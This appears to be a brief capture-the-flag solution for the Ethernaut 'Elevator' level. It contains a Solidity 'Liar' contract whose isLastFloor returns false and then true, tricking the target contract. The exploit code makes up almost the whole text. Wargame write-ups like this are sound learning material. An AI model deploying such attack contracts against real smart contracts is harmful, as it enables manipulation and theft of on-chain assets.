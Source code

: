 # Elevator

We're able to manipulate our state in `isLastFloor` so we can track when it's the second time the function is called.

```javascript
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
    function goTo(uint _floor) public {}
}

contract Liar is Building {
    
    Elevator elevator;
    uint currentFloor;
    
    constructor(address _instance) {
        elevator = Elevator(_instance);
        currentFloor = 0;
    }
    
    function goUp() public {
        // It doesn't really matter which floor we go to.
        elevator.goTo(100);
    }
    
    function isLastFloor(uint _floor) external override returns (bool) {
        if (currentFloor == _floor) {
            return true;
        }
        currentFloor = _floor;
        return false;
    }
}
```